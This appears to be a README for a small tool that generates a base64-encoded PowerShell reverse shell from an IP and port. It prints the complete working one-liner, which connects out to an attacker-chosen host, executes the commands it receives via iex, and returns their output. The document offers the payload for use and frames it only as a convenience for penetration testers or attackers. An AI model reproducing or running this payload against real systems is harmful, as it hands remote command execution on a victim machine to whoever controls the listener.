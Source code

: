 # psh_reverse_OneLine
Generate the command to make a powershell revershell (the one liner encoded in base64)

syntax:
	--help or -h	print manual
	--ip or -i	specify IP
	--port or -p	specify port
Example:
	python3 psh_reverse_OneLine.py -i 192.168.1.2 -p 4444
	
FYI, the powershell reverse shell one liner as below:


$client = New-Object System.Net.Sockets.TCPClient("<your IP>", <your port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
